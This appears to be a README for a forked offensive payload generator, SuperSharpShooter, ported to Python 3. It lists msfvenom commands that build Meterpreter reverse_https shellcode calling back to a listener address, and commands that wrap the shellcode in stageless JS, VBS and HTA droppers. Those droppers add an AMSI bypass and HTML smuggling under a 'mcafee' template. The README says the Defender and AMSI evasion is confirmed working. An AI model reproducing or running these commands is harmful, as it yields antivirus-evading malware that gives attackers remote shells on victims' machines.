 Forking... and fixing a couple of things.

Newest:
Install with `pipx install git+https://github.com/n000b3r/SuperSharpShooter.git`

What's new:
1. Fixed the amsiEnable bypass to use the filelocation-independent version
2. Added polymorphism to the string "SharpShooter", which was popping Defender signature-based detections.  This is enabled by default in this version.  If you want it disabled, by all means... comment out in SuperSharpShooter.py:507 : 
    x.template_code = x.fix_hardcode(x.template_code, x.code_type)
3. Fixed .NET v4 js, vbs, hta sharpshooterv4 and stagelessv4
4. Ported to python3

I can confirm that stageless js, vbs, and hta all work.  Can also confirm amsi bypass and defender bypass works (at least at this time).  Can also confirm HTML smuggling stageless works.

### Generate the shellcodes
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > csharpsc.txt  ### you'll need to remove all variable wrapping such that only the bytes remain

### Core stageless
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test

### Core with AMSI bypass
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test --amsi amsienable

### Core with AMSI Bypass and HTML Smuggling
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable --smuggle --template mcafee

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable --smuggle --template mcafee

Technique notes:

Test host:  Windows 10, no internet

Initial load of smuggling page:

192.168.1.86 - - [19/Jan/2022:23:37:54 -0800] "GET /test2.html HTTP/1.1" 200 57832 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
